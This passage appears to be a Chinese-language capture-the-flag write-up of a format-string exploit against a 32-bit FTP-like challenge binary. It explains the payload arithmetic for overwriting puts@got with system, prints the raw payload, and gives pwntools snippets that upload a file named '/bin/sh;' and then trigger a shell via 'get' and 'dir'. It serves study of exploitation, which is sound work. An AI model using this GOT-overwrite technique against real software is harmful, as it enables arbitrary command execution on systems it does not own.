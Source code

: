 ```assembly
[+] system actual addr = 0xf7d63040
```

## payload Analysis

- `payload = fmtstr_payload(7, {puts_got: system_addr})`表示格式化字符串的偏移是 7，希望在 `puts_got` 地址处写入 `system_addr` 地址。上面程序分析得到: `puts_got=0x804a028, system_addr=0xf7d63040`。亦即，在小端存储下，想要在`0x804a028`处写入`0x40`; `0x804a029`处写入`0x30`; `0x804a02a`处写入`0xd6`; `0x804a02b`处写入`0xf7`.

```c
payload: b'%48c%19$hhn%16c%20$hhn%150c%21$hhn%33c%22$hhnaaa)\xa0\x04\x08(\xa0\x04\x08*\xa0\x04\x08+\xa0\x04\x08'
payload: 253438632531392468686e253136632532302468686e25313530632532312468686e253333632532322468686e61616129a0040828a004082aa004082ba00408
```

- 上述`paylaod`意思上等同于: `%48c%19$hhn%16c%20$hhn%150c%21$hhn%33c%22$hhnaaa\x0804a029\x0804a028\x0804a02a\x0804a02b`
- 即覆盖`0x0804a029`为`0x30=48`; 覆盖`0x0804a028`为`0x40=48+16`;  覆盖`0x0804a02a`为`0xdc=48+16+150`; 覆盖`0x0804a02b`为`0xf7=48+16+150+33`。`aaa`用于pad, `%48c%19$hhn%16c%20$hhn%150c%21$hhn%33c%22$hhnaaa`总共48 char. 原本fmt str地址为fmt str指针所在位置的第7个参数位置处，而48 char占去12个参数的位置(32bit程序)，故欲覆盖地址所在位置的参数序号为`19=7+12`

## put and get  /bin/sh; 

- 使用上述paylaod的脚本片段如下，文件名为`/bin/sh;`，文件内容为payload，此时paylaod还未起效

```python
# ====== step 4: put ====== modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr}) # 格式化字符串的偏移是 7，希望在 puts_got 地址处写入 system_addr 地址
print("payload:", payload, "\npayload:", payload.hex())
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('/bin/sh;')  # file name
sh.recvuntil('then, enter the content:')
sh.sendline(payload)  # file content
```

- 令payload起效的脚本片段如下，先后输入`get`, `/bin/sh;`令程序调用`get_file()`内的语句`printf(payload);`，使得payload起效。step 5结束后，`puts@got`地址被覆盖为`system`函数的地址

```python
# ====== step 5: get ======
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')  # file name
```

## call system using dir

- payload起效后，使用dir命令，让程序执行`show_dir()`函数内的`puts(s);`

```python
# ====== step 6: dir ======
sh.sendline('dir')  # system('/bin/sh')
```
